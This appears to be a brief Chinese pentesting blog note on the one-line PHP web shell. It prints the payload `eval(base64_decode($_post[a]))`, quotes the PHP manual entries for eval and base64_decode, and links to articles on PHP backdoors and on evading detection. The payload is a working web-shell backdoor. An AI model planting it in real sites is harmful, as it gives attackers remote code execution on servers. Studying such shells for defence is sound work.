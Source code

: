 ```yaml
---
layout: post
title: 一句话木马
---
```


@(WebPEN)[infosec]

**`eval(base64_decode($_post[a]))`**
## eval
(PHP 4, PHP 5)
eval — 把字符串作为PHP代码执行
### 说明
```
mixed eval ( string $code )
```
把字符串 code 作为PHP代码执行。
### 参数
1.  code
	需要被执行的字符串

## base64_decode
(PHP 4, PHP 5)
base64_decode — 对使用 MIME base64 编码的数据进行解码
### 说明
```
string base64_decode ( string $data [, bool $strict = false ] )
```
对 base64 编码的 data 进行解码。
### 参数
1. data
	 编码过的数据。
2. strict
	 如果输入的数据超出了 base64 字母表，则返回 FALSE。

## 进阶
[那些强悍的PHP一句话后门 ](http://www.freebuf.com/articles/web/9396.html)
["一句话"的艺术——简单的编码和变形绕过检测](http://drops.wooyun.org/tips/839)
